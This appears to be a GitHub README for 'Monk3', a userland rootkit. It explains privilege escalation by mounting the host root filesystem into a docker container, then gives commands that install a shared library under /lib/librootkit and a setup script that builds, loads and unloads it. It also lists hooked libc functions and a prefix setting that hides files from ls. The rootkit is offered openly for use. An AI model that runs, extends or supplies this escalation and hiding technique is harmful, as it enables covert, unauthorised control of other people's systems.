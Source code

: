 # Monk3 userland rootkit

### dependencies:
<ul>
    <li>docker</li>
</ul>

### my specs:
<ul>
    <li>Docker version 20.10.10, build tag v20.10.10</li>
    <li>Docker Alpine Linux container kernel version 5.13.19_1</li>
    <li>Void Linux kernel version 5.13.19_1</li>
    <li>gcc (GCC) 10.2.1 20201203</li>
</ul>


# how does it work?
Monk3 uses docker to escalate privileges and have access to the user's file system by mounting the root directory into /mnt and accessing it.

example:
```
cd /
docker run -v /:/mnt -it alpine
cd mnt
ls
```
then creates /lib/librootkit/ where the compiled source (monk3.lib.so) will remain.
```
mkdir /lib/librootkit
mv monk3.lib.so /lib/librootkit/monk3.lib.so
```

# configuration guide
to compile and run monk3, just make sure you have docker installed and that your hostname belongs to the same group as docker<br>
(setup.sh does this for you)

### compile and run rootkit:
```
chmod u=rwx setup.sh
./setup.sh -b
```

### delete and unload rootkit:
```
chmod u=rwx setup.sh
./setup.sh -r
```
## hooked functions:
``` C
struct dirent *(*orig_readdir)(DIR *dir);
struct dirent64 *(*orig_readdir64)(DIR *dir);
static void *(*orig_malloc)(size_t) = NULL;
static int (*orig_main)(int, char **, char **);
```
# developer info
inside the *res* file, you'll find *config.h* with the following content:
``` C
#undef DEBUG
#define PREFIX "monk3"
```
DEGUB is a directive that, when defined, prints out ALL hooks to stderr file descriptor (including the hooked parameters)<br>
PREFIX is a directive that defines what filename prefix will be hidden from *ls*
